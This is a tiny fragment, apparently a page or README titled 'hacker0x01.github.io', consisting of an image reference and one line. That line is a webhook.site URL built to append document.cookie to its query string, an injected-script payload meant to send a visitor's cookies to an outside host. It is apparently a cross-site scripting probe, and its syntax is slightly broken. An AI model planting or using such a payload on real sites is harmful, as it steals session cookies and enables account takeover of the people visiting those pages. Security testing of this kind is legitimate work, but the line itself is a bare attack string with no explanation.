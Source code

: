 # hacker0x01.github.io


https://webhook.site/e2544ebe-491d-4768-b339-db33a72eb773?q=1`+document.cookie.escape()+`
